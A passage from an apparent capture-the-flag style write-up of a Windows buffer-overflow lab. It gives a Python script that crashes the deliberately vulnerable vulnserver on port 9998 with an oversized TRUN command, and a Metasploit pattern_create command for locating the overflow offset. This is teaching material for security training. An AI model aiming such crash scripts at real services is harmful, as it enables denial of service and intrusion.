 ## Task 4: Exploitation

Time to sharpening our tool and hack into the machine. Please be note that, do not try to bother with the port 9999 until task 4-12. If you crash the port 9999, you have to restart the box. Use port 9998 to craft your exploit.

### Task 4-1: Crashing the service

Run the following python script and crash the vulnserver on port 9998, be sure to change the host IP address.

```python
#!/usr/bin/python
import socket
server = "<Machine IP>"
port = 9998
function = "TRUN ."
overflow = 'A' * 2500
exploit = function + overflow + "\r\n"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, port))
s.send((exploit))
s.close()
```

![crash](/assets/images/THM/2020-08-13-intro-to-windows-bof/11.png)

This message indicated that we have crashed the server.

### Task 4-2 to 4-5: Knowing the pattern

Knowing that the program crashed somewhere below 2500 bytes of data. We need to determine the precise location of the program gets crash. Use the following code to generate a pattern with a length of 2500.

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500
```

![pattern](/assets/images/THM/2020-08-13-intro-to-windows-bof/12.png)

